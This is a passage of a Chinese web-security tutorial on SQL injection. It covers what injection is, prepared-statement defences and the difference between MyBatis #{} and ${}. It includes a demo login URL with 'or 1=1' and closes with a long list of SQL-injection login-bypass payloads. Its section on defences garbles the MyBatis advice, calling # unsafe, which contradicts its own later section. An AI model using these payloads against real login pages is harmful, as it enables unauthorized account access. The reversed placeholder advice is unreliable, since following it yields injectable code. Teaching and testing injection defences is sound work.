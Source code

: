 将参数特殊字符转换成html源代码保存.

## 0x02SQL注入攻击

### 1.什么是SQL注入

SQL注入：利用现有应用程序，将（恶意）的SQL命令注入到后台数据库执行一些恶意的作。

造成SQL注入的原因是因为程序没有有效过滤用户的输入，使攻击者成功的向服务器提交恶意的SQL查询代码，程序在接收后错误的将攻击者的输入作为查询语句的一部分执行，导致原始的查询逻辑被改变，额外的执行了攻击者精心构造的恶意代码

### 2.SQL注入防攻击手段

不要使用拼接SQL语句方式、最好使用预编译方式，在mybatis编写sql语句的时候，最好使用?传参数方式，不要使用#传参数，因为#传参数方式，可能会受到sql语句攻击。

演示案例:

http://127.0.0.1:8080/login?userName='liusi'&password='123'

http://127.0.0.1:8080/login?userName='liusi'&password='123'  or 1=1

### 3.MyBatis #与?区别

\#{}: 解析为一个 JDBC 预编译语句（prepared statement）的参数标记符，一个 #{ } 被解析为一个参数占位符,可以防止SQL注入问题。

${}: 仅仅为一个纯碎的 string 替换，在动态 SQL 解析阶段将会进行变量替换。

### 4.SQL万能密码

```
'or'='or'
'or''='
'or ''='
" or "a"="a
"or "a"="a
"or 1=1--
"or 1=1%00
"or"="a'='a
"or=or"
') or ('a'='a
')or('a'='a
1 or '1'='1' or 1=1
1 or '1'='1'=1
1'or'1'='1
admin' or 'a'='a 密码随便
admin'or'1'='1'--
admin' or '1'='1'--
a'or' 1=1--
a 'or' 1=1--
or 1=1--
'or 1=1--
'or' '1'='1
or 1=1-- '
'OR 1=1%00
or 'a'='a
'or'='1'
'or''=''or''='
' or ''=''or''='
'or'1'='1
' or '1'='1
'or'a'='a
' or 'a'='a
'xor
' UNION Select 1,1,1 FROM admin Where ''='
```
